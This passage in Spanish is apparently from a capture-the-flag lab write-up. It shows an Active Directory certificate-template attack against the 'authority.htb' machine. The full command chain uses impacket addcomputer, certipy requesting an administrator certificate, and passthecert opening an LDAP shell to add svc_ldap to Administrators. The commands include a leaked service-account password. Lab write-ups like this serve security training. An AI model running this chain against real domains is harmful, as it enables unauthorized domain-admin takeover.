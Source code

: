 Para explotarlo haremos uso de **impacket-addcomputer**, **Certify** y por ultimo **passthecert** para conectarnos a una Shell de **Ldap** y agregar nuestro usuario al grupo **Administrators**.
Primero añadiremos una nueva maquina con el siguiente comando:
```
# addcomputer.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name vulnSystem$ -computer-pass 123456 -method LDAPS
```

Luego de esto, generaremos un **.pfx** con el cual podremos generar un **.key** y un **.crt** que nos serviran para conectarnos a la **LDAP-SHELL**:
```
# certipy req -u vulnSystem$ -p 123456 -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.129.11.56
```

Esto nos dejara **administrator_authority.pfx**. Luego generamos la **Key** y el **Cert**:
```
# certipy cert -pfx administrator_authority.pfx -nokey -out user.crt && certipy cert -pfx administrator_authority.pfx -nocert -out user.key 
```

Y ahora nos contactamos con **PassTheCert**:
```
# python3 passthecert.py -action ldap-shell -crt ../../user.crt -key ../../user.key -domain authority.htb -dc-ip 10.129.11.56
```

Agregamos el usuario **svc_ldap** al grupo **administrators**:
```ruby
# python3 passthecert.py -action ldap-shell -crt ../../user.crt -key ../../user.key -domain authority.htb -dc-ip 10.129.11.56
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
 
# add_user_to_group svc_ldap administrators
```

Ahora nos podemos conectar con **Evil-WinRM** con el usuario **svc_ldap** y tendremos todos los privilegios de administrador y visualizar la flag:
![[Pasted image 20230716231749.png]]
